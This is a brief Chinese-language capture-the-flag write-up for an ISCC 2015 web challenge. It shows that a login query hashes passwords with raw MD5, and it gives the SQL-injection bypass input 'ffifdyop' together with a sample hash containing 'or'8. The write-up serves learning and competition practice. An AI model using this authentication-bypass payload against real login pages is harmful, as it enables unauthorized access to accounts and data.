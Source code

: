#How？
##250
##http://script.iscc.org.cn/script02/login.php

>这应该不是出题者的初衷.随意填一个密码后,提示Your password for guest is wrong.<br>
然后,response head如下:

    Connection keep-alive
    Content-Length 34
    Content-Type text/html; charset=UTF-8
    Date Tue, 05 May 2015 15:47:31 GMT
    Server Apache
    Via 1.1 www.isclab.org (squid)
    X-Cache MISS from www.isclab.org
    X-Powered-By PHP/5.3.3
    goder Y618
    sql "select * from admin_password where password='".md5($password,true)."'"

然后,知道是md5 injection with raw md5 hashs.<br>
搜到下面的内容,大家看吧.<br>
不过似乎服务端是硬编码的,必须的猜出出题人给的那字符才行~~~<br>

>content: 129581926211651571912466741651878684928<br>
count: 18933549<br>
hex: 06da5430449f8f6f23dfc1276f722738<br>
raw: ?T0D??o#??'or'8.N=?<br>


[http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)<br>
[http://auntitled.blogspot.jp/2010/09/leet-more-ctf-2010-write-up-oh-dears.html](http://auntitled.blogspot.jp/2010/09/leet-more-ctf-2010-write-up-oh-dears.html)<br>
[http://pastebin.com/w5E54PNz](http://pastebin.com/w5E54PNz)<br>
[http://pastebin.com/2xMG9rKi](http://pastebin.com/2xMG9rKi)<br>
[http://pastebin.com/ThxBESPs](http://pastebin.com/ThxBESPs)<br>


结果    居然是:<br>
ffifdyop